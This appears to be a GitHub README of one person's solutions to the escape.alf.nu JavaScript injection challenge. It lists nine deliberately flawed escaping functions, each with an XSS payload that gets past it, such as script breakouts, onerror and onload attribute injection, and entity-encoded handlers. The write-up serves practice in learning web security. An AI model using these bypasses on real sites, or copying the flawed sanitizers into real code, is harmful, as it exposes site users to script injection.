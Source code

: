 JavaScript Injection Challenges Solutions
=========================================

Just a repository to keep my solutions to http://escape.alf.nu so that I can remember them over time...

Useful tools: https://mothereff.in/html-entities


LEVEL 0
-------

    function escape(s) {
        // Warmup.

        return '<script>console.log("'+s+'");</script>';
    }

INPUT:

    "+alert(1)+"`, `");alert(1)//


LEVEL 1
-------

    function escape(s) {
        // Escaping scheme courtesy of Adobe Systems, Inc.
        s = s.replace(/"/g, '\\"');
        return '<script>console.log("' + s + '");</script>';
    }

INPUT:

    \");alert(1)//


LEVEL 2
-------

    function escape(s) {
        s = JSON.stringify(s);
        return '<script>console.log(' + s + ');</script>';
    }

INPUT:

    </script><script>alert(1)//


LEVEL 3
-------

    function escape(s) {
        var url = 'javascript:console.log(' + JSON.stringify(s) + ')';
        console.log(url);

        var a = document.createElement('a');
        a.href = url;
        document.body.appendChild(a);
        a.click();
    }

INPUT:

    %22);alert(1)//


LEVEL 4
-------

    function escape(s) {
        var text = s.replace(/</g, '&lt;').replace('"', '&quot;');
        // URLs
        text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
        // [[img123|Description]]
        text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
        return text;
    }

INPUT:

    [[a|""onload="alert(1)"]]


LEVEL 5
-------

    function escape(s) {
        // Level 4 had a typo, thanks Alok.
        // If your solution for 4 still works here, you can go back and get more points on level 4 now.

        var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
        // URLs
        text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
        // [[img123|Description]]
        text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
        return text;
    }

INPUT:

    [[a|http://onload='alert(1)']]
    [[a|http://onerror='alert(1)']]


LEVEL 6
-------

    function escape(s) {
        // Slightly too lazy to make two input fields.
        // Pass in something like "TextNode#foo"
        var m = s.split(/#/);

        // Only slightly contrived at this point.
        var a = document.createElement('div');
        a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
        return a.innerHTML;
    }

INPUT:

    Comment#--><script>alert(1)</script>


LEVEL 7
-------

    function escape(s) {
        // Pass inn "callback#userdata"
        var thing = s.split(/#/); 

        if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
        var obj = {'userdata': thing[1] };
        var json = JSON.stringify(obj).replace(/</g, '\\u003c');
        return "<script>" + thing[0] + "(" + json +")</script>";
    }

    '#';alert(1)//
    

LEVEL 8
-------

    function escape(s) {
        return '<script>console.log("' + s.toUpperCase() + '")</script>';
    }
    
    ")</script><img src onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;//
    ")</script><img src onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)//
    ")</script><img src onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;(1)
                                                 LINE BREAK HERE ☝


